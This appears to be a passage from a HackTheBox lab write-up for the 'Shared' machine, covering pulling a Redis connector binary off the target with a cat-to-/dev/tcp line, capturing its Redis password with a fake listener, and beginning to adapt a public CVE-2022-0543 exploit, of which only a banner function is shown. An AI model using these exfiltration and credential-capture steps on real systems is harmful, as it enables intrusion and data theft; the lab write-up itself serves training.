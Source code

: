 It is a `Go` binary, which connects to the Redis server on localhost with password. The password is provided with binary, so we can get it on our local machine. 

On our local machine we have to start a listener and forward its output to a file. I didn't change the name of a file. Interesting way to get the file from the machine is just to cat it and forward to /dev/tcp/IP/PORT.

```bash
dan_smith@shared:~$ cat /usr/local/bin/redis_connector_dev > /dev/tcp/IP/PORT
```

On our machine we are getting a file.

## Get Redis password

I tried to disassemble it first, but I haven't found any useful. So my way to get the password was created with Redis authentication mechanism. You can read about it [here](https://redis.io/commands/auth/). To authenticate you have to provide line like `AUTH [username] password`. There is no username here, so we just have to get a password.

The idea is to set up a listener on Redis server port 6379 and execute a binary on our local machine. The binary will try to authenticate with password on our listener. So let's do it.

![Get AUTH password](/assets/hackthebox/shared/redis_password.png)

The last line of the output is our password. Let's check it on the shared host.

![Successfully authenticated to Redis](/assets/hackthebox/shared/redis_auth_success.png)

And there it is. From the binary's output we noted that the version of the server is `6.0.15`. This version is vulnerable to `CVE-2022-0543` and have a known [exploit](https://github.com/aodsec/CVE-2022-0543).


## Exploit Redis Server

Here we have to copy the exploit and modify it with our ip, port and a password. The final exploit will look like below.

```python
import redis
import sys

def echoMessage():
	version = """  
      [#] Create By ::
        _                     _    ___   __   ____                             
       / \   _ __   __ _  ___| |  / _ \ / _| |  _ \  ___ _ __ ___   ___  _ __  
      / _ \ | '_ \ / _` |/ _ \ | | | | | |_  | | | |/ _ \ '_ ` _ \ / _ \| '_ \ 
     / ___ \| | | | (_| |  __/ | | |_| |  _| | |_| |  __/ | | | | | (_) | | | |
    /_/   \_\_| |_|\__, |\___|_|  \___/|_|   |____/ \___|_| |_| |_|\___/|_| |_|
                   |___/            By https://aodsec.com                                           
    """
	print(version)
```